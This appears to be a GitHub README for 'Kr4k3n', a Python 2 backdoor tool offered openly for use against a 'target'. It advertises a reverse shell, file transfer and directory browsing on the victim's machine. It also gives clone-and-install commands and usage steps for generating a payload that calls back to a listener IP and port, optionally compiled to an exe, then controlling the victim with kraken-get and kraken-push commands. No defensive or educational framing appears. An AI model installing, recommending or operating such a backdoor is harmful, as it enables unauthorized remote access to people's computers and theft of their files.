 # Kr4k3n Backdoor Tool
 Powerful and easy to use Backdoor.

![download(1)](https://user-images.githubusercontent.com/56045160/115126114-d60eb480-9f9a-11eb-909d-df919b9a970c.gif)

## How it works
```
Using this tool you can easily and fast generate target file that will give you many features. Firstly, you can have access to target shell. Secondly, you can make file transfers between your and target machines. Thirdly, you can make directory movements.
```
## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:

One line installation:
```
$ git clone https://github.com/YanOScompany/kr4k3n.git && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git clone https://github.com/YanOScompany/kr4k3n.git
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

[Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

Example usage:
```

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get 11.png, kraken-push 11.png (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

